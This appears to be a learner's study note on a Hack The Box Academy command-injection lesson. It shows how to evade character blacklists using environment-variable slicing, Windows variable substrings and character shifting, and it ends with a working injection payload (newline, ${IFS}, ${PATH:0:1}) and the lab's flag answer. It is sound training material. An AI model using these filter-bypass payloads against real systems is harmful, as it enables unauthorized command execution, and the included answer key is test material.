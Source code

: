 ```yaml
---
sticker: emoji//1f4bb
---
```


# Bypassing Other Blacklisted Characters

Besides injection operators and space characters, a very commonly blacklisted character is the slash (`/`) or backslash (`\`) character, as it is necessary to specify directories in Linux or Windows. We can utilize several techniques to produce any character we want while avoiding the use of blacklisted characters.

***

### Linux

There are many techniques we can utilize to have slashes in our payload. One such technique we can use for replacing slashes (`or any other character`) is through `Linux Environment Variables` like we did with `${IFS}`. While `${IFS}` is directly replaced with a space, there's no such environment variable for slashes or semi-colons. However, these characters may be used in an environment variable, and we can specify `start` and `length` of our string to exactly match this character.

For example, if we look at the `$PATH` environment variable in Linux, it may look something like the following:

```shell-session
smoothment@htb[/htb]$ echo ${PATH}

/usr/local/bin:/usr/bin:/bin:/usr/games
```

So, if we start at the `0` character, and only take a string of length `1`, we will end up with only the `/` character, which we can use in our payload:

```shell-session
smoothment@htb[/htb]$ echo ${PATH:0:1}

/
```

```ad-note
**Note:** When we use the above command in our payload, we will not add `echo`, as we are only using it in this case to show the outputted character.
```

We can do the same with the `$HOME` or `$PWD` environment variables as well. We can also use the same concept to get a semi-colon character, to be used as an injection operator. For example, the following command gives us a semi-colon:

```shell-session
smoothment@htb[/htb]$ echo ${LS_COLORS:10:1}

;
```

Exercise: Try to understand how the above command resulted in a semi-colon, and then use it in the payload to use it as an injection operator. Hint: The `printenv` command prints all environment variables in Linux, so you can look which ones may contain useful characters, and then try to reduce the string to that character only.

So, let's try to use environment variables to add a semi-colon and a space to our payload (`127.0.0.1${LS_COLORS:10:1}${IFS}`) as our payload, and see if we can bypass the filter:&#x20;

![Filter Operator](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_spaces_5.jpg)

As we can see, we successfully bypassed the character filter this time as well.

***

### Windows

The same concept works on Windows as well. For example, to produce a slash in `Windows Command Line (CMD)`, we can `echo` a Windows variable (`%HOMEPATH%` -> `\Users\htb-student`), and then specify a starting position (`~6` -> `\htb-student`), and finally specifying a negative end position, which in this case is the length of the username `htb-student` (`-11` -> `\`) :

```cmd-session
C:\htb> echo %HOMEPATH:~6,-11%

\
```

We can achieve the same thing using the same variables in `Windows PowerShell`. With PowerShell, a word is considered an array, so we have to specify the index of the character we need. As we only need one character, we don't have to specify the start and end positions:

```powershell-session
PS C:\htb> $env:HOMEPATH[0]

\


PS C:\htb> $env:PROGRAMFILES[10]
PS C:\htb>
```

We can also use the `Get-ChildItem Env:` PowerShell command to print all environment variables and then pick one of them to produce a character we need. `Try to be creative and find different commands to produce similar characters.`

***

### Character Shifting

There are other techniques to produce the required characters without using them, like `shifting characters`. For example, the following Linux command shifts the character we pass by `1`. So, all we have to do is find the character in the ASCII table that is just before our needed character (we can get it with `man ascii`), then add it instead of `[` in the below example. This way, the last printed character would be the one we need:

```shell-session
smoothment@htb[/htb]$ man ascii     # \ is on 92, before it is [ on 91
smoothment@htb[/htb]$ echo $(tr '!-}' '"-~'<<<[)

\
```

We can use PowerShell commands to achieve the same result in Windows, though they can be quite longer than the Linux ones.

Exercise: Try to use the the character shifting technique to produce a semi-colon `;` character. First find the character before it in the ascii table, and then use it in the above command.

## Question

***

![](images/Pasted%20image%2020250205141832.png)

We can do the following payload:

```
127.0.0.1%0als${IFS}${PATH:0:1}home
```

```ad-important
#### Breakdown
---
### **Explanation**

1. **`%0a`**: New-line character to terminate the original command (e.g., `ping 127.0.0.1`) and inject a new command.
    
2. **`ls`**: Command to list directories.
    
3. **`${IFS}`**: Replaces the space between `ls` and the directory path.
    
4. **`${PATH:0:1}`**: Extracts the first character (`/`) from the `PATH` environment variable.
    
5. **`home`**: Appended to `${PATH:0:1}` to form `/home`.
```

We'll see the following payload:

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.012 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.012/0.012/0.012/0.000 ms
1nj3c70r
```

Answer is `1nj3c70r`
